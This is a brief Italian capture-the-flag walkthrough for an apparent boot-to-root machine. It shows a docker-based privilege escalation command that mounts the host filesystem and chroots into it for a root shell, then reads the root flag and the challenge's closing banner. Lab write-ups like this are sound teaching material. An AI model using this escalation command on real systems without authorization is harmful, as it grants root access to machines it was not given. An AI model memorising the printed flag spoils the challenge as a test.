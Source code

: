 1) Dopo varie enumerazioni hoscoperto che posso sfruttare il servizio docker per aprire la shell di root: 
anurodh@ubuntu:/bin$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh

2) Accedo alla directory root e prendo la flag:
cd /root
ls
proof.txt
cat proof.txt


                                        {ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}


Congratulations! You have successfully completed the challenge.


         ,-.-.     ,----.                                             _,.---._    .-._           ,----.  
,-..-.-./  \==\ ,-.--` , \   _.-.      _.-.             _,..---._   ,-.' , -  `. /==/ \  .-._ ,-.--` , \ 
|, \=/\=|- |==||==|-  _.-` .-,.'|    .-,.'|           /==/,   -  \ /==/_,  ,  - \|==|, \/ /, /==|-  _.-` 
|- |/ |/ , /==/|==|   `.-.|==|, |   |==|, |           |==|   _   _\==|   .=.     |==|-  \|  ||==|   `.-. 
 \, ,     _|==/==/_ ,    /|==|- |   |==|- |           |==|  .=.   |==|_ : ;=:  - |==| ,  | -/==/_ ,    / 
 | -  -  , |==|==|    .-' |==|, |   |==|, |           |==|,|   | -|==| , '='     |==| -   _ |==|    .-'  
  \  ,  - /==/|==|_  ,`-._|==|- `-._|==|- `-._        |==|  '='   /\==\ -    ,_ /|==|  /\ , |==|_  ,`-._ 
  |-  /\ /==/ /==/ ,     //==/ - , ,/==/ - , ,/       |==|-,   _`/  '.='. -   .' /==/, | |- /==/ ,     / 
  `--`  `--`  `--`-----`` `--`-----'`--`-----'        `-.`.____.'     `--`--''   `--`./  `--`--`-----``  


--------------------------------------------Designed By -------------------------------------------------------
                                        |  Anurodh Acharya |
                                        ---------------------

                                     Let me know if you liked it.

Twitter
        - @acharya_anurodh
Linkedin
        - www.linkedin.com/in/anurodh-acharya-b1937116a



